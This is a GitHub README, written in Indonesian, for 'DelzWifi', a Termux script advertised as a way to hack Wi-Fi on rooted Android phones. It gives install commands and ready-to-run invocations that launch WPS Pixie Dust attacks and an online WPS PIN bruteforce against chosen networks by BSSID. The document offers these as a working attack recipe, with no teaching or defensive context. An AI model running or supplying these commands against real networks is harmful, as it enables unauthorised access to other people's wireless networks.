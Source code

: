 ## DelzWifi
### Hack WIfi Mengunakan Termux! (Wajib Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
apt update && apt upgrade
&& pkg install -y root-repo
&& pkg install -y git tsu python wpa-supplicant pixiewps iw
&& git clone https://github.com/ghodelzcalm/DelzWifi
&& cd DelzWifi
&& chmod +x birihack.py
&& sudo python birihack.py --help
```

#### Example : 

```bash
cd DelzWifi

chmod +x birihack.py

sudo python birihack.py -i wlan0 -K
```


## Perbarui

```bash

(cd DelzWifi && git pull)
```


## Langsung Menjalankan Perintah Script

```bash

sudo python DelzWifi/birihack.py -i wlan0 -K
```


#### Note: 
**Pertama matikan Wifi Anda.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Jika Terjadi Error" - Nyalakan Wifi lalu Matikan Wifi.**

### Berhentikan script yang sedang berjalan 
**" (CTRL C).**
